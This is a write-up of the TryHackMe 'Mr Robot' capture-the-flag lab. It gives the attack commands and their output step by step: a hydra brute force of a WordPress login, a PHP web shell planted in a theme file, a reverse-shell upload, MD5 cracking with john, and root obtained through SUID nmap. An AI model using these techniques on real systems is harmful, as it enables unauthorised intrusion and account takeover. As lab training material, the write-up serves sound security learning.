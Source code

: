 ```yaml
---
title: TryHackMe | Mr Robot CTF
author: Zeropio
date: 2022-09-25
categories: [TryHackMe, medium-room]
tags: [thm, linux]
permalink: /tryhackme/mr-robot-ctf
---
```



# Foothold

The nmap show:

```
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  closed http
443/tcp closed https
```

The nmap doesn’t tell us which OS is. With `ping` we can see the ttl:

```console
zero@pio$ ping 10.10.3.202 
	PING 10.10.3.202 (10.10.3.202) 56(84) bytes of data.
	64 bytes from 10.10.3.202: icmp_seq=1 ttl=63 time=74.9 ms
```

With the **ttl=63** we can probably is Linux. Both webpages show the same, a copy of the Mr Robot show. We can see that the page ends with a terminal prompt. We can see a bunch of aviable commands:

```
prepare
fsociety
inform
question
wakeup
join
```

We found some webpages with some commands, like **/fsociety**, **/inform**, **/question**, **/wakeup** and **/join**. In the last one, the page ask for an email.

If we fuzz by directories:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.3.202/FUZZ'

	admin                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 63ms]
	js                      [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 63ms]
	wp-content              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 61ms]
	css                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 59ms]
	wp-admin                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 60ms]
	wp-includes             [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 61ms]
	blog                    [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 49ms]
	xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 1402ms]
	login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1444ms]
	feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 775ms]
	rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 787ms]
	video                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 62ms]
	sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 49ms]
	image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 705ms]
	audio                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 49ms]
	phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 314ms]
	dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 689ms]
	wp-login                [Status: 200, Size: 2606, Words: 115, Lines: 53, Duration: 2060ms]
```

We see that is a wordpress. The login page redirect to the **/wp-login.php**. We can also found the **/robots.txt**, where we have the first flag:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The **/fsocity.dic** page will download the file, a passlist. Let’s try finding some valid username and using the wordlist. First we start with:

```console
zero@pio$ curl http://10.10.3.202/wp-json/wp/v2/users | jq
```

But we got to a non existent page. 

---

# Fingerprint

We see that the page **http://10.10.99.194/xmlrpc.php** it is up. We can try enumerating user through it , without succes.

```console
zero@pio$ wpscan --url 'http://10.10.3.202/' --enumerate u
zero@pio$ sudo wpscan --password-attack xmlrpc -t 20 -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P fsocity.dic --url 'http://10.10.3.202/'
```

We can try some names until we found **Elliot**. Now we can use `hydra`:

```console
zero@pio$ hydra -l Elliot -P fsocity.dic 10.10.3.202 -s 80 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=<div id="login_error">' -t 30

	[80][http-post-form] host: 10.10.3.202   login: Elliot   password: ER28-0652
```

Now that we are login we can do the classical reverse shell in the Wordpress themes. We will edit the `http://10.10.3.202/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` file to create a reverse shell. We will add `system($_GET['cmd']);` at the beginning of the file. Now we can test it:

```console
zero@pio$ curl -X GET 'http://10.10.3.202/wp-content/themes/twentyfifteen/404.php?cmd=id'

	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

We cannot get a reverse shell from there so we will edit `http://10.10.3.202/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=2967`. Copy and paste the [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell and access the system.

---

# Privilege Escalation

We found an user in the `/home`{: .filepath} folder. Inside of it, there is a md5 password:

```console
$ cd /home/     
$ ls
	robot
$ cd robot
$ ls
	key-2-of-3.txt
	password.raw-md5
$ cat key-2-of-3.txt
	cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
	robot:c3fcd3d76192e4007dfb496cca67e13b
```

With `john` we can crack it easily:

```console
zero@pio$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash 
	Created directory: /home/zeropio/.john
	Using default input encoding: UTF-8
	Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	abcdefghijklmnopqrstuvwxyz (?)
```

We cannot use commands like `su` or `sudo`. We need to upgrade the shell and login:

```console
$ su robot
	su: must be run from a terminal
$  python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
	su robot
	Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
```

We can search for SUID permissions:

```console
robot@linux:~$  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
	-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
	-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
	-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
	-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
	-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
	-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
	-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
	-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
	-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
	-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
	-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

We found `nmap` between them. Searching in [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#shell) we found a possible explotation:

```console
robot@linux:/usr/local/bin$ nmap --interactive

	Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
	Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh               
# whoami
	root
```

The last flag is in the `/root`{: .filepath} directory.
